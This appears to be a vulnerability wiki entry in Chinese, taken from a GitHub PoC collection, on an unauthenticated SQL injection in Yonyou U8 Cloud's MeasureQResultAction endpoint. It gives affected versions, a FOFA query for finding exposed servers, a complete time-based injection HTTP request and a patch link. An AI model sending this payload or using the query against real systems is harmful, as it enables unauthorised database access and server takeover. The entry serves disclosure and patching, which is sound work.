


# 用友U8 Cloud MeasureQResultAction SQL注入漏洞

# 漏洞描述

用友U8 Cloud nc.ui.iufo.query.measurequery.MeasureQResultAction 接口处存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

影响版本

1.0,2.0,2.1,2.3,2.5,2.6,2.65,2.7,3.0,3.1,3.2,3.5,3.6,3.6sp,5.0,5.0sp,5.1

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：title=="U8C"

POC/EXP：

GET /service/~iufo/com.ufida.web.action.ActionServlet?action=nc.ui.iufo.query.measurequery.MeasureQResultAction&method=execute&selectQueryCondition=1%27);WAITFOR+DELAY+%270:0:5%27-- HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close

# 修复方案

升级补丁<U8CLOUD系统MeasureQResultAction接口存在SQL注入漏洞的安全补丁>

https://security.yonyou.com/#/noticeInfo?id=598

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
